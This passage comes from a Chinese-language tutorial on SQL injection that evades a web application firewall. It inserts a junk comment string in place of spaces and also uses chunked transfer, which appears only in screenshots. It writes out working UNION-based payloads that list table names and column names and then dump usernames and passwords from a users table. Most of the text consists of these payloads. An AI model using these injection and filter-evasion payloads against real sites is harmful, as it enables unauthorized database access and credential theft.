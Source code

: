 根据前面的测试，这个绕过就很简单了，只需要将一个空格地方替换成 **/_%%!asd%%%%_/** 即可。

Payload：

**1’ union/_%%!asd%%%%_/select 1,group_concat(table_name) /_%%!asd%%%%_/from /_%%!asd%%%%_/information_schema.tables where table_schema=database(/_%%!asd%%%%_/) —+**

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR38uojGJ1B7tXbHpiaFjPXGS2ZV4ibgPlgxXfIia3HTV2hMuSDkhph1acxY8hlf6KOJEBhruYymMuuXog/640?wx_fmt=jpeg)

#### **方法二 分块传输**

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR38uojGJ1B7tXbHpiaFjPXGS210kAK3yoPKvkh4rHn16khxA9MAhKj8icDA1h7Wl9lChgiaM7Ea8pjzGA/640?wx_fmt=jpeg)

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR38uojGJ1B7tXbHpiaFjPXGS25cx6v5Hry5iaNj7Tz51kJaHPMqfk9LcmcMxRORgJodYzq6Vhy8CMgGQ/640?wx_fmt=jpeg)

### 获取表中的字段名

#### **方法一**

正常注入语句：

1’ union select 1,group_concat(column_name) from information_schema.columns where table_name=’users’ —+

绕过方法和获取表的操作无异:

**1’ union/_%%!asd%%%%_/select 1,group_concat(column_name) /_%%!asd%%%%_/from/_%%!asd%%%%_/information_schema.columns where table_name=’users’ —+**

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR38uojGJ1B7tXbHpiaFjPXGS2vCBpW4hjOmic5bbL9ONzsmibaLVqCCpQLeTkXrPtoSiccGQ94kbFT7HRA/640?wx_fmt=jpeg)

#### **方法二 分块传输**

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR38uojGJ1B7tXbHpiaFjPXGS2pmqt17btguGnNLteuPVAW8LTdxwTMZCGibzksibOnf3NP48WlHfA9Vtw/640?wx_fmt=jpeg)

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR38uojGJ1B7tXbHpiaFjPXGS28XJ8jLe5yxoC78hWCCM53I9OGYzyoZhRhq4gSnMMpToNTJnYgeqUvQ/640?wx_fmt=jpeg)

### 获取数据

#### **方法一**

正常注入语句：

1’ union select group_concat(user),group_concat(password) from users —+

绕过方法还是一样：

**1’ union/_%%!asd%%%%_/select group_concat(user),group_concat(password) /_%%!asd%%%%_/from/_%%!asd%%%%_/users —+**

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR38uojGJ1B7tXbHpiaFjPXGS2IP47P0IkALcYllb7YibUET2wLrStbvnciactmicUiaJ2UlgJ29j88OZvBQ/640?wx_fmt=jpeg)

#### **方法二 分块传输**

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR38uojGJ1B7tXbHpiaFjPXGS2ibM0K1byenwE2vDd7Fafnj2xteKqlT39YNicfYEq3ujBFRicz5ej3KHcg/640?wx_fmt=jpeg)
